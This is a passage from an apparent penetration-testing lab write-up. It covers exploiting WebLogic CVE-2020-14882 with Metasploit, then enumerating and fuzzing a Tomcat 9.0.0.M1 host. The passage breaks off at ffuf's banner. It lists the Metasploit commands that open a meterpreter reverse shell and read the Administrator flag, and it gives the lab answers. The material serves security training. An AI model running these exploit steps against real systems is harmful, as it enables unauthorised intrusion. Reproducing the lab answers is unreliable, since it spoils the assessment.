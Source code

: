 So we run so many payloads and none worked. We finally used metasploit:

```
msfconsole -q

search CVE-2020-14882
use exploit/multi/http/weblogic_admin_handle_rce
set LHOST 10.10.15.8
set RHOSTS 10.129.201.102
run


# And we obtain a meterpreter
shell

# And now, cat the flag:
type C:\Users\Administrator\Desktop\flag.txt
```

Results: w3b_l0gic_RCE!


## Skills Assessments

### Attacking Common Applications - Skills Assessment I

During a penetration test against the company Inlanefreight, you have performed extensive enumeration and found the network to be quite locked down and well-hardened. You come across one host of particular interest that may be your ticket to an initial foothold. Enumerate the target host for potentially vulnerable applications, obtain a foothold, and submit the contents of the flag.txt file to complete this portion of the skills assessment.

**What vulnerable application is running?**

We enumerate the services and ports:

```
nmap 10.129.201.89 -Pn -sC -sV -p- --open
```

We see apache tomcat. After accessing the web we can see that is running under version 9.0.0.M1

Results: Tomcat 


**What port is this application running on?**

Results: 8080


**What version of the application is in use?**

 9.0.0.M1


**Exploit the application to obtain a shell and submit the contents of the flag.txt file on the Administrator desktop.**


```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.201.89:8080/cgi/FUZZ.bat

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

```